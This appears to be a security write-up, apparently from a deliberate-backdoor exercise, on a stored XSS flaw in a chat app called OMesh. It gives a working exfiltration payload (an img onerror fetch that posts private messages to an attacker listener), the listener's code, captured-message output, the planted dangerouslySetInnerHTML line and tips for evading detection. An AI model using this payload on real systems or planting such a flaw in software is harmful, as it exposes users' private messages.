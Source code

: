 ## Description

This backdoor exploits a persistent cross-site scripting (XSS) vulnerability to exfiltrate stored client-side data, compromising the confidentiality of users in the chat system.

## Technical Details

Messages are stored client-side in a volume that users can retain for a configurable duration. The frontend retrieves these messages using a `/get_messages` endpoint, which extracts a message JSON object from a Docker volume. These messages are then displayed inside a React component using `dangerouslySetInnerHTML`. By sending a message containing malicious script, whether public or private, an attacker can force the receiving clients to execute this script whenever they view their messages. In the case of a private message, this allows targeted attacks on specific users.

Crucially, this malicious script can itself call `/get_messages`, but instead of displaying the data, it can exfiltrate the messages to an unauthorized remote server. The code snippets at the end of this document provide a comprehensive understanding of the vulnerability enabling this backdoor.

## Objectives

This backdoor violates several key security principles:

- Confidentiality: It allows unauthorized access to private messages intended only for specific recipients.
- Authentication: The backdoor bypasses any authentication measures in place for accessing private messages.
- Trust: It undermines the trust users place in the system's ability to keep their communications private.

## Exploitation Method (Proof of Concept)

1. Attacker identifies that messages are displayed using `innerHTML` and not `innerText`.

![Image 1.1](appendix/Image%201.1.png)

<p align="center"><em>Figure 3.1: A simple XSS test. The attacker refreshes the page and realises that the message is stored, so it's persistent</em></p>

2. Attacker monitors their network tab to see what request the frontend is making to the backend.

![Image 1.2](appendix/Image%201.2.png)

<p align="center"><em>Figure 1.2: The <code>`/get_messages`</code> endpoint catches the attacker's eye!</em></p>

3. Attacker sets up a very basic server to retrieve responses.

```js
const express = require("express");
const bodyParser = require("body-parser");
const cors = require("cors");
const app = express();
const port = 3000;

app.use(cors());
app.use(bodyParser.json());

app.post("/return", (req, res) => {
  console.log("Received POST request at /return");
  console.log("Request body:", req.body);
  res.status(200).send("Request received and logged");
});

app.listen(port, () => {
  console.log(`Server listening at http://localhost:${port}`);
});


...
[ 1 16:38:00 john-wayne-gacy ~/Documents/OMesh/backdoor/appendix ] $ node server.js
Server listening at http://localhost:3000
```

4. Attacker crafts a special XSS attack which will make a request to `/get_messages` and send the response to their server.

```html
<img
  src="x"
  onerror='fetch("/get_messages").then(r=>r.json()).then(d=>fetch("http://localhost:3000/return",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify(d)}))'
/>
```

5. Attacker waits some time for other clients to send some private messages

![Image 1.3](appendix/Image%201.3.png)

<p align="center"><em>Figure 1.3: Clients 2 and 3 are speaking privately, thinking that client 1 can't see their messages</em></p>

6. Attacker sends a private XSS attack to client 2 and waits for them to refresh their messages.

![Image 1.4](appendix/Image%201.4.png)

<p align="center"><em>Figure 1.4: Client 2 retrieves the XSS attack!</em></p>

7. Victim client loads XSS attack, which forces them to send their messages to the attacker's server.

```
[ 0 16:51:34 the-zodiac-killer ~/Documents/OMesh/backdoor/appendix ] $ node server.js
Server listening at http://localhost:3000
Received POST request at /return
Request body: {
  messages: [
    {
      message: 'hi client 3, we can talk in private here!!!',
      sender: 'kOCmwXHM5C/pNO5nW+FTdDxCFr6CHnT75u6doHno+7o=',
      timestamp: 1727767376.9362664
    },
    {
      message: 'hi client 2, yes we can! client 1 will never be able to see this!',
      sender: 'YEym18KEGEn68nr3MHSnOCN+h5thptu+amZA7Y1HJvo=',
      timestamp: 1727767403.5918934
    },
    {
      message: `<img   src="x"   onerror='fetch("/get_messages").then(r=>r.json()).then(d=>fetch("http://localhost:3000/return",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify(d)}))' />`,
      sender: 'C7G1Mrjqk6nDlS5u7Fv3R221UovWf9HzffZQtEzrOt4=',
      timestamp: 1727767593.7110288
    }
  ]
}
```

<p align="center"><em>Figure 1.5: Attacker successfully retrieves private 'secure' messages from a simple XSS vulnerability</em></p>

## Detection Challenges

- The vulnerability hinges on a single, easily overlooked line in approximately 4,000 lines of code: the use of `dangerouslySetInnerHTML`.
- Much of the code enabling this exploit serves legitimate purposes within the application. The storage and retrieval of data in client volumes is necessary for the messaging functionality.
- The XSS payload can be obfuscated or split across multiple messages to evade simple pattern-matching detection methods.
- The actual data exfiltration occurs client-side, making it difficult to detect through server-side logging or monitoring.
- The attack leaves minimal traces in server logs, as it primarily exploits client-side vulnerabilities.
- Regular security scans might not detect this vulnerability if they're not specifically configured to check for XSS in React applications.

## Code Snippets

```jsx
// ... (rest of react component)
<p
  className="break-words"
  dangerouslySetInnerHTML={{ __html: messageContent }}
></p>
```

<p align="center"><em>Figure 1.1: Code Snippet showing use of <code>dangerouslySetInnerHTML</code></em></p>

```python
@app.route('/get_messages', methods=['GET'])
def get_messages():
    if MESSAGE_EXPIRY_TIME == 0:
        # Messages are not stored; return the current messages and clear them
        messages = client_instance.incoming_messages.copy()
        client_instance.incoming_messages.clear()
        return jsonify({'messages': messages})
    else:
        current_time = time.time()
        with client_instance.message_lock:
            if MESSAGE_EXPIRY_TIME > 0:
                # Remove expired messages
                client_instance.incoming_messages = [
                    msg for msg in client_instance.incoming_messages
                    if current_time - msg['timestamp'] <= MESSAGE_EXPIRY_TIME
                ]
                client_instance.save_messages()

            messages = client_instance.incoming_messages.copy()
        return jsonify({'messages': messages})
```

<p align="center"><em>Figure 1.2: Code Snippet showing the client's logic to send back messages</em></p>
